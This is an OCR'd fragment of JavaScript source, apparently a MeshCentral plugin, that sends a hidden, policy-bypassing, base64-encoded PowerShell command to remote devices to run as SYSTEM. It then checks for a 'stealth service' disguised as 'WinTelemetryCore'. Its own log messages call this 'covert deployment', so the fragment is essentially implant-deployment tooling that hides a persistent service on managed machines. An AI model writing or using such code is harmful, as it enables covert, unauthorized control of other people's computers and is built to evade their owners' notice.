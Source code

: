 ```javascript
        if (!device) {
            callback({ success: false, error: 'Device not found' });
            return;
        }

        // Get server URL
        var serverUrl = obj.parent.config.settings.cert || 'https://' + obj.parent.certificates.CommonName;

        // Get mesh install hash
        var meshInstallHash = device.meshid;

        // Build PowerShell command
        var encodedScript = obj.getDeploymentScript();
        var psCommand = `powershell.exe -WindowStyle Hidden -NonInteractive -NoProfile -ExecutionPolicy Bypass -EncodedCommand ${encodedScript}`;

        // Execute via MeshAgent command interface
        obj.parent.webserver.SendMeshAgentCommand(deviceid, {
            action: 'runcommands',
            cmds: psCommand,
            runAsUser: 0 // Run as SYSTEM
        }, function (result) {
            if (result && result.success) {
                obj.parent.debug('plugin', 'Covert deployment initiated successfully');
                callback({ success: true, message: 'Deployment initiated' });
            } else {
                obj.parent.debug('plugin', 'Covert deployment failed: ' + JSON.stringify(result));
                callback({ success: false, error: result.error || 'Unknown error' });
            }
        });
    };

    // Monitor deployment status
    obj.checkDeploymentStatus = function (deviceid, callback) {
        // Query device for stealth service status
        var checkCommand = `powershell.exe -Command "Get-Service -Name 'WinTelemetryCore' -ErrorAction SilentlyContinue | ConvertTo-Json"`;

        obj.parent.webserver.SendMeshAgentCommand(deviceid, {
            action: 'runcommands',
            cmds: checkCommand
        }, function (result) {
            if (result && result.output) {
                try {
                    var serviceInfo = JSON.parse(result.output);
                    callback({
                        success: true,
                        deployed: serviceInfo.Status === 'Running',
                        serviceName: serviceInfo.Name,
                        status: serviceInfo.Status
                    });
                } catch (e) {
                    callback({ success: false, deployed: false, error: 'Service not found' });
                }
            } else {
                callback({ success: false, deployed: false });
            }
        });
    };

    // Web UI handler
    obj.handleWebRequest = function (req, res) {
```